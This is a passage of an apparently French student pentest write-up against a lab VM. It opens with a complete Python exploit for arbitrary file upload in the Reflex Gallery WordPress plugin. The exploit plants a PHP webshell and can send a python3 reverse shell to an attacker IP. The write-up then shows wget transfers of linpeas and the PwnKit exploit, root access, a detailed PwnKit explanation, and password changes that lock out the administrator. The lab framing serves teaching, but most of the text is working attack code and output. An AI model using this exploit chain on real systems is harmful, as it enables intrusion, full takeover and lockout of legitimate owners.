⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡾⠛⠉⠉⠉⠳⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀⠀⢀⣀⠀⠀⠀⠉⠙⠳⠦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣇⡀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢷⡄⠀⠈⠉⠛⠢⢤⣤⣀⠀⠀⠈⠉⠉⠑⠒⠒⠒⠢⠤⢤⣤⣤⣤⣤⣄⣠⣤⣤⡤⠔⠚⠋⠁⢀⡇⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⢦⣄⡀⠀⠀⠀⠈⠉⠙⠓⠒⠦⢦⣤⣤⣄⣀⣀⣀⣀⣀⣀⠀⠀⠈⠁⠀⢀⣀⣀⣠⣤⠖⠉⠀⠀
⠛⣻⣶⣦⣤⣄⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⠲⢤⣤⣀⣀⠀⠀⠀⠀⠀⠀⠁⠀⠈⠀⠉⠀⠉⠉⠉⠉⠉⣉⣉⣤⣥⣷⠾⠓⢲⣚⡟
⠈⣞⣷⣴⣌⣽⣫⣿⠷⣤⣄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠙⠛⠛⠛⠛⠛⠷⠶⠶⠶⠶⢶⢦⣤⣤⣴⢿⣯⡉⠉⣁⣞⠗⢂⠹⡝⠅
⠀⣻⣿⣷⢪⣿⣋⠀⠀⢀⡈⣽⡛⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡟⣛⣍⣿⢷⡆⣈⣻⣮⠀⣻⣧⢿⣷⣶⠾
⠿⣿⣿⠾⠿⣿⡿⣵⣿⡏⣿⠹⣿⣞⢷⣄⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣴⠟⡾⣿⣹⣿⣿⢷⡽⣏⠛⠓⠒⠛⠛⠛⠛⠛
⡼⢭⠥⣴⠬⣿⠿⢯⡿⢥⡿⢧⡿⢿⡿⢯⠭⢭⡿⢿⡿⢿⡿⢶⡶⢶⡾⢾⡿⢿⡭⢿⣿⠼⣧⠍⣭⠭⣥⠬⣷⢻⣆⣀⣦⣀⣴⣀⣀⠀
⢱⡿⠶⠿⠶⠾⠶⠾⠶⠾⠷⠾⠶⠾⠷⠾⠶⠾⠷⠾⠷⠾⠷⠾⠷⠾⠟⠛⠻⠞⠛⠛⠛⠛⠛⠛⠛⠋⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⢹⡀"""

    print("\033[92m")
    for line in banniere.split():
        print(line)
        sleep(0.05)
    
    print("\033[0m")


# Add arguments
def parser():

    p = argparse.ArgumentParser(description="Reflex Gallery 3.13 Exploit - Arbitrary File Upload to RCE")
    p.add_argument("-u", "--url", required=False, help="base URL of the wordpress target")
    p.add_argument("-i", "--info", required=False, action='store_true', help="show vulnerability description")
    p.add_argument("-y", "--year", required=False, help="Actual year, example : 2023")
    p.add_argument("-m", "--month", required=False, help="Actual month, exemple : 10")
    p.add_argument("-r", "--revshell", required=False, help="Reverse shell with ip:port, use nc -lvnp to listen on port")

    return p.parse_args()

# Execute commands once webshell is uploaded
def execute_commands(url, webshell_name, year, month):

    whoami = requests.get(f"{url}wp-content/uploads/{year}/{month}/{webshell_name}?cmd=whoami").text
    whoami = whoami.strip()
    
    hostname = requests.get(f"{url}wp-content/uploads/{year}/{month}/{webshell_name}?cmd=hostname -I").text
    hostname = hostname.strip()

    print(c.BLUE + "\nType " + c.YELLOW + "help" + c.BLUE + " to see extra functions\n" + c.END)
    while True:
        
        command_to_exec = input(whoami + "@" + hostname + ":~$ ")
        
        if command_to_exec != "exit" and command_to_exec != "quit" and command_to_exec != "help" and command_to_exec != "clear" and command_to_exec != "cls" and command_to_exec != "?":
            command_out = requests.get(f"{url}wp-content/uploads/{year}/{month}/{webshell_name}?cmd={command_to_exec}").text
            print("\n" + command_out)

        if command_to_exec == "help" or command_to_exec == "?":
            print(c.YELLOW + "\nCommands\t\tDescription" + c.END)
            print(c.YELLOW + "--------\t\t-----------" + c.END)
            print(c.BLUE + "quit/exit\t\tExit from shell" + c.END)
            print(c.BLUE + "clear/cls\t\tClear terminal output" + c.END)
            print(c.BLUE + "help/?\t\t\tPrint this help panel\n" + c.END)

        if command_to_exec == "clear" or command_to_exec == "cls":
            os.system("clear")

        if command_to_exec == "exit" or command_to_exec == "quit":

            print(c.BLUE + "\n[" + c.YELLOW + "*" + c.BLUE + "] Clossing connection, bye!" + c.END)
            sys.exit(0)        

# Main function
def main():
    
    banniere()

    # Parse arguments
    args = parser()

    try:
        if not sys.argv[1]:
            print("URL not provided, [-h/--help] to show help panel")
            sys.exit(0)
    except:
        print("URL not provided, [-h/--help] to show help panel")
        sys.exit(0)

    if args.info:
        exp_info = """\n# Exploit Title: Wordpress Plugin Reflex Gallery - Arbitrary File Upload
# Discovered by: CrashBandicot @DosPerl
# Vendor Homepage: https://wordpress.org/plugins/reflex-gallery/
# Software Link: https://downloads.wordpress.org/plugin/reflex-gallery.zip"""
        print(exp_info)
        
        print("\nPath where the vuln occurs: /wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php")

        print("\nVulnerable code:")
        print("50.      if(!move_uploaded_file($_FILES['qqfile']['tmp_name'], $path)){")
        print("173.         $result = $uploader->handleUpload('../../../../../uploads/'.$_GET['Year'].'/'.$_GET['Month'].'/');")
        print(f"\n{c.YELLOW}--------------------------------------------------------------------------------{c.END}\n")
        print("Parameters: ")
        print("\t-u or --url")
        print("\t\tThe url of the target")
        print("\t\tExample : http://192.168.58.1/this_is_wordpress/")
        print("\t-y or --year")
        print("\t\tThe current year")
        print("\t\tExample : 2023")
        print("\t-m or --month")
        print("\t\tThe current month")
        print("\t\tExample : 01 for january")
        print("\t[optonal] -r or --revshell")
        print("\t\tip:port if you want a reverse shell (and not a webshell)")
        print("\t\tExample : 192.168.58.2:4444")
        sys.exit(0)

    arguments_ok = True
    if args.url is None:
        print(f"{c.RED}You need to provide argument -u or --url, use -i to have more infos{c.END}")
        arguments_ok = False
    if args.year is None or args.month is None:
        print(f"{c.RED}You need to specify the year and the month with -y and -m, use -i to have more infos{c.END}")
        arguments_ok = False
    
    if not arguments_ok:
        print("Exiting because all required argumuments wasn't given")
        sys.exit(0)
    
    url = args.url

    # Check if target is live
    sleep(0.2)
    print(c.BLUE + "[" + c.YELLOW + "*" + c.BLUE + "] Checking connection with target..." + c.END)
    checker = requests.get(url, timeout=10)
    sleep(0.4)

    if checker.status_code != 404 and checker.status_code != 500:
        print(c.BLUE + "[" + c.YELLOW + "+" + c.BLUE + "] Connection established successfully" + c.END)
    else:
        print(c.BLUE + "[" + c.RED + "-" + c.BLUE + "] Connection refused, exiting" + c.END)
        sys.exit(0)

    try:
        os.remove("exploit-shell.php")
    except:
        pass

    # Create webshell file
    shell = open("exploit-shell.php", "w")
    shell.write("<?php system($_REQUEST['cmd']); ?>")
    shell.close()

    # Define file content
    file = {"qqfile": open("exploit-shell.php", "r")}

    if not url.endswith("/"):
        url = url + "/"

    # Upload file
    sleep(0.3)
    print(c.BLUE + "[" + c.YELLOW + "*" + c.BLUE + "] Uploading malicious file..." + c.END)
    r = requests.post(f"{url}wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year={args.year}&Month={args.month}", files=file)
    print(r.text)
    uploaded_name = re.findall(r'"fileName":"(.*?)"', r.text)[0].split("/")[-1]
    sleep(0.6)

    if uploaded_name != "" and "true" in r.text:
        print(c.BLUE + "[" + c.YELLOW + "+" + c.BLUE + "] File uploaded successfully" + c.END)
        sleep(0.3)

    try:
        os.remove("exploit-shell.php")
    except:
        pass

    # "while" loop to execute commands in a fake-shell
    print(c.BLUE + "[" + c.YELLOW + "*" + c.BLUE + "] Trying to establish a shell..." + c.END)
    sleep(0.4)
    if args.revshell is None:
        execute_commands(url, uploaded_name, args.year, args.month)
    else:
        ip, port = args.revshell.split(":")
        print(f"Sending revser shell bind to ip : {ip} and port : {port}")
        print(f"To bind easily, use nc -lvnp {port}")
        reverse = f"""python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("{ip}",{port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'"""
        try:
            requests.get(f"{url}wp-content/uploads/{args.year}/{args.month}/{uploaded_name}?cmd={reverse}", timeout=3)
        except:
            print("Revseshell sent in python3, check your netcat listener")
            

if __name__ == "__main__":

    # Program starts here
    try:
        main()
    except KeyboardInterrupt:
        print(c.BLUE + "\n\nInterrupt handler received, exiting..." + c.END)
        sys.exit(0)
```

Pour résumer l'exploit, ce module autorise l'upload de fichier PHP, il est donc possible pour nous d'upload un webshell en PHP.


Avant d'aller plus loin, nous allons expliquer les termes reverse shell et web shell ainsi que leurs différences.

Un shell, c'est tout simplement un accès en ligne de commande à la machine. Un webshell c'est donc un accès en ligne de commande qui passe directement par le web. Un reverse shell quant à lui est un accès à la machine cible en lui demandant de ce connecter à nous. Il faut donc envoyer un petit script sur la machine cible, qui va faire une demande de connexion vers un port spécifique de notre machine (sur lequel nous sommes en train d'écouter). Maintenant quelle est la différence entre les 2 ?

Le reverse shell garde le contexte d'exécution, tandis que ce n'est pas le cas du webshell. Imaginons que nous sommes dans `/y` j'execute la commande `cd /x` puis `ls`. Si j'utilise un webshell alors le `ls` se fera dans `/y` tandis qu'avec un reverse shell il sera dans `/x`.

Afin de générer facilement des payloads de reverse shell, il existe le site [revshells.com](https://www.revshells.com/).

Pour la suite, nous allons donc créer directement un reverse shell.

Pour cela, nous allons exécuter notre exploit d'un coté et mettre en place une écoute sur le port 4444 de l'autre



Essayons de voir si nous avons accès aux fichiers de la cible en récuperant `/etc/passwd`

```
www-data@vtcsec:/var/www/html/secret/wp-content/uploads/2023/10$ cat /etc/passwd   
<ml/secret/wp-content/uploads/2023/10$ cat /etc/passwd                       
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
```

> **En faisant cela, le premier point est validé car un attaquant pourrait avoir accès aux fichiers du système**

### De simple utilisateur à root

Grâce à la commande `whoami` de la capture précédente, il est possible de voir que nous sommmes entrés en tant que `www-data` qui est l'utilisateur par défaut de Apache. Il faut donc faire ce qu'on appelle de la PrivEsc (Privilege Escalation) pour avoir un accès total au système. Pour avoir plus d'informations sur l'état actuel du système, nous avons décidé d'exécuter `linpeas` sur la cible (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). Linpeas est un programme permettant de faire un rapport très, très détaillé sur l'état de la cible, c'est pour cela que nous allons uniquement mettre les parties que nous avons utilisé dans ce rapport. A titre informatif, il y a une copie du rapport complet dans le fichier `linpeas.txt`.

Avant de pouvoir exécuter quoi que ce soit, il faut déjà réussir à télécharger le programme sur la machine, pour cela nous avons opté pour l'utilisation d'un serveur web sur une machine kali et la commande `wget` pour récuperer le fichier sur la cible.

Sur la cible : 
```bash
mkdir /tmp/privesc
cd /tmp/privesc
```

Sur la machine kali :
```bash
cd ~/Documents/sae-pentest/privesc
sudo python3 -m http.server 80
```

Sur la cible :
```bash
wget http://192.168.58.128/linpeas.sh
--2023-10-04 08:59:28--  http://192.168.58.128/linpeas.sh
Connecting to 192.168.58.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 848400 (829K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 828.52K  --.-KB/s    in 0.03s   

2023-10-04 08:59:29 (31.0 MB/s) - 'linpeas.sh' saved [848400/848400]


bash linpeas.sh > result.txt
cat result.txt
```

En regardant l'onglet qui répertorie les CVE, on peut voir qu'il y en a énormément.

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                                                                
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: probable
   Tags: ubuntu=14.04{kernel:4.4.0-*},[ ubuntu=16.04 ]{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64

   Details: https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt
   Exposure: less probable
   Tags: debian=7.7|8.5|9.0,ubuntu=14.04.2|16.04.2|17.04,fedora=22|25,centos=7.3.1611
   Download URL: https://www.qualys.com/2017/06/19/stack-clash/linux_ldso_hwcap_64.c
   Comments: Uses "Stack Clash" technique, works against most SUID-root binaries

[+] [CVE-2017-1000253] PIE_stack_corruption

   Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
   Exposure: less probable
   Tags: RHEL=6,RHEL=7{kernel:3.10.0-514.21.2|3.10.0-514.26.1}
   Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+]  [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic} ]
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

En regardant d'un peu plus près, nous avons vu `[CVE-2021-4034] PwnKit`. PwnKit étant un programme avec lequel nous sommes familier et qui fonctionne plutôt bien, nous avons décidé de l'utiliser une fois encore.

Pour l'utiliser, il faut télécharger la source à l'url suivant https://codeload.github.com/berdav/CVE-2021-4034/zip/main, et suivre la même procédure que pour linpeas.


```bash
wget http://192.168.58.128/CVE-2021-4034-main.zip
--2023-10-04 09:12:25--  http://192.168.58.128/CVE-2021-4034-main.zip
Connecting to 192.168.58.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: 'CVE-2021-4034-main.zip'

CVE-2021-4034-main. 100%[===================>]   6.31K  --.-KB/s    in 0.001s  

2023-10-04 09:12:25 (5.71 MB/s) - 'CVE-2021-4034-main.zip' saved [6457/6457]


unzip CVE-2021-4034-main.zip
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c


cd CVE-2021-4034-main

make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.


./cve-2021-4034

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

> **Le point 2 est donc validé car nous avons actuellement accès en tant qu'administrateur (root)**

Avant de passer à la suite, nous allons expliquer le fonctionnement de PwnKit

Ce passage va faire appel à des fonctions système avancées. Si vous souhaitez passer cette partie, la suite est disponible [ici](#suite).

Une grande partie des informations sur cet exploit viennent de ce site https://www.mend.io/blog/polkit-pkexec-vulnerability-cve-2021-4034/.

PwnKit est un outil d'élévation de privilèges qui utilise le binaire `pkexec`. Si on regarde l'utilité de cet outil via la commande `man` on peut voir

```
pkexec [--user username] PROGRAM [ARGUMENTS...]

DESCRIPTION
       pkexec allows an authorized user to execute PROGRAM as another user. If username is not specified, then the program will be executed as the administrative super user, root.
```

C'est donc un outil qui permet d'exécuter un programme passé en paramètre avec les permissions d'un autre utilisateur. Si l'utilisateur n'est pas fourni, alors `pkexec` l'exécute avec les permissons de `root`.

Avant de voir comment fonctionne l'exploit, il est nécessaire de faire un détour par la fonction du langage C `iconv_open()`. Cette dernière permet en résumé de "traduire" une chaine de caractère d'un encodage à un autre (par exemple `UTF-8` vers `UTF-16`). Cette fonction est aussi connue pour faciliter l'élévation de privilèges, car elle exécute tout programme contenu dans la variable d'environnement `GCONV_PATH`. C'est pour cela que cette variable d'environnement est omise/filtrée quand des programmes nécessitant les privilèges administrateurs sont exécutés.

Pour comprendre l'exploit, il est également important de revenir sur la gestion de la mémoire à l'appel d'un programme en C.

Quand un programme est appelé, les arguments et les variables d'environnement sont envoyés au programme. Imaginons que j'exécute la commande `ls /` avec comme variables d'environnement `a=b` et `c=d`, cela donne l'organisation de mémoire suivante

```
|     argc     |   argv[0]    |   argv[0]    |    null      |       envp[0]       |       envp[1]       |    null      |
|   (nombre    | (argument 1) | (argument 2) | (délimiteur) |     (variable       |     (variable       | (délimiteur) |
| d'arguments) |              |              |              | d'environnement 1 ) | d'environnement 2 ) |              |
|       2      |     ls       |       /      |      0       |        a=b          |        c=d          |      0       |
```

Si on regarde le fonctionnement de `pkexec`, on peut voir ce code

```c
main(int argc, char *argv[])
{
[...]
    for (n=1; n < (guint) argc; n++)
    {
[...]
    }
[...]
    path = g_strdump(argv[n]);
[...]
    if (path[0] != '/')
    {
[...]
        s = g_find_program_in_path(path);
[...]
        argv[n] = path = s;
    }
[...]
}
```

On peut voir que la boucle `for` parcourt tous les arguments (en commençant par `n=1` pour ne pas prendre en compte le nom du programme `pkexec`). Le programme recupère ensuite la valeur du `n` pour lequel la boucle s'est arretée. Enfin, il recupère le chemin absolu du programme passé en paramètre si le nom ne commence pas par `/` et écrit cette valeur à la place de l'ancienne dans `argv`. Ce programme a l'air totalement sécurisé. Cependant, que ce passerait-il si aucun argument ne lui était fourni ? Par exemple, en utilisant seulement les variables d'environnement `a=b` et `c=d`.

```
|     argc     |    null      |       envp[0]       |       envp[1]       |    null      |
|   (nombre    | (délimiteur) |     (variable       |     (variable       | (délimiteur) |
| d'arguments) |              | d'environnement 1 ) | d'environnement 2 ) |              |
|       0      |      0       |        a=b          |        c=d          |      0       |
```

Pour ce cas de figure, le programme rentre dans la boucle avec `n=1` puis ressort imédiatement car `argc=0`. Par la suite, il récupère le chemin absolu de `argv[1]`, qui pointe vers la valeur suivante dans la mémoire, soit `envp[0]`, il est donc possible de manipuler à notre guise cette variable d'environnement.

Si nous créons maintenant un dossier `test/` et le programme `test/programme`, il est possible de manipuler la valeur de `envp[0]` sans pour autant avoir de chemin absolu à l'aide de la varaible d'environnement `PATH`. Dans le cas ou la mémoire est agencée comme suit :

```
|     argc     |    null      |       envp[0]       |       envp[1]       |    null      |
|   (nombre    | (délimiteur) |     (variable       |     (variable       | (délimiteur) |
| d'arguments) |              | d'environnement 1 ) | d'environnement 2 ) |              |
|       0      |      0       |     programme       |     PATH=test       |      0       |
```

Alors, le programme va exécuter la fonction `g_find_program_in_path` sur la valeur `programme`, cette fonction va chercher dans la variable d'environnement `PATH` et renvoie la valeur `test/programme`. Sous Linux, le caractère `/` est interdit dans les noms de fichiers et dossiers. Revenons maintenant à la variable d'environnement `GCONV_PATH`. Pour rappel, celle-ci est omise lors de l'exécution de programmes car elle facilite l'exécution de code. Il est donc possible de renommer notre dossier `test` par `GCONV_PATH=.`  . En utilisant la variable d'environnement `PATH=GCONV_PATH=.`, le nom de programme renvoyé serait `GCONV_PATH=./programme`. Ce nom est ensuite stocké dans `envp[0]`, créant une variable d'environnement valide.



Maintenant qu'il est possible de créer la variable d'environnement `GCONV_PATH`, il reste à faire en sorte que le fichier qu'elle contient soit exécuté. À partir de cet endroit, il y a plusieurs payloads possibles pour exploiter cette partie, nous allons nous focaliser sur un seul moyen de le faire.

Parmis les fonctions utilisés dans la validation des variables d'environnement par le programme (qui arrive après notre première exploitation), il y a notamment la fonction `g_printerr()`. Cette dernière utilise par défaut l'encodage `UTF-8`. Cependant, si jamais un autre encodage lui est soumis (via la variable d'environnement `CHARSET`), elle appelle `iconv_open()`, qui pour rappel exécute le programme contenu dans `GCONV_PATH`. En regardant de plus près la portion de code pour valider les variables d'environnement, on voit ceci :

```c
static gboolean
validate_environnement_variable (const gchar *key, const gchar *value)
{
[...]
    /* special case $SHELL */
    if (g_strcmp0 (key, "SHELL") == 0)
    {
        /* check if it's in /etc/shells */
        if (!is_valid_shell (value))
        {
            log_message (LOG_CRIT, TRUE, "The value for the SHELL variable was not found the /etc/shells file");
            g_printerr ("\n"
                        "This incident has been reported.");
[...]
        }
    }
}
```

Quand le programme trouve la variable d'environnement `SHELL` en dehors de `/etc/shells`, il considère cela comme une erreur et appelle en conséquence la fonction `g_printerr()` ce qui signifie une victoire pour nous.

Le payload final donne donc

```
|     argc     |    null      |       envp[0]       |      envp[1]       |      envp[2]       |      envp[3]       |    null      |
|   (nombre    | (délimiteur) |     (variable       |     (variable      |     (variable      |     (variable      | (délimiteur) |
| d'arguments) |              | d'environnement 1 ) | d'environnement 2) | d'environnement 3) | d'environnement 4) |              |
|       0      |      0       |     programme       | PATH=GCONV_PATH=.  | SHELL=/not/shells  |   CHARSET=UTF-16   |      0       |
```

Avec le dossier `PATH=GCONV_PATH=.` contenant `programme`, un shell sous forme de fichier exécutable.

Trame d'execution de `pkexec` :

- Sortie de la boucle à `n=1`

- Recherche du chemin complet de `argv[n]`, ce qui correspond à `envp[0]`

- Après lecture du `PATH`, le chemin trouvé est `GCONV_PATH=./programme`

- Sauvegarde du chemin dans `envp[0]`

- La variable d'environnement `SHELL` n'est pas valide -> exécution de `g_printerr()`

- Comme le `CHARSET` est différent de `UTF-8` -> exécution de `iconv_open()`

- `iconv_open()` exécute le contenu de `GCONV_PATH` (notre shell)

- Comme le programme est lancé avec les privilèges `root` (SUID), le shell a les permissions administrateur

Maintenant que nous avons passé en revue le fonctionnement de PwnKit, nous allons finir les objectifs du Pentest.

<div id="suite"></div>

Pour le point 3 qui consiste a bloquer l'accès a l'administrateur du système, rien de plus simple, il suffit de changer le mot de passe de tout les utilisateurs du groupe `sudo`, ainsi que celui de root.

Commençons par lister les utilisateurs du groupe sudo, pour cela, il existe la commande `getent group`


On peut voir que le seul utilisateur est marlinspike.

Il suffit donc d'exécuter les commandes :

```bash
passwd marlinspike
passwd root
```

